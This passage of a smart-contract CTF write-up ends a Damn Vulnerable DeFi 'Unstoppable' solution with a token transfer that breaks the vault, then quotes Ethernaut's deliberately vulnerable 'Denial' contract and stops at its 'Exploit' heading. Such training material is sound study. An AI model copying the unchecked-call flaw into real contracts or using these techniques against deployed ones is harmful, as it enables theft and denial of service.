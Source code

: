 As a conclusion, we simply need to add the following line to _unstoppable.challenge.js_:

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token.connect(player).transfer(vault.address, 1n * 10n ** 18n);
});
```



## Ethernaut - Denial

### Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9e);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Exploit
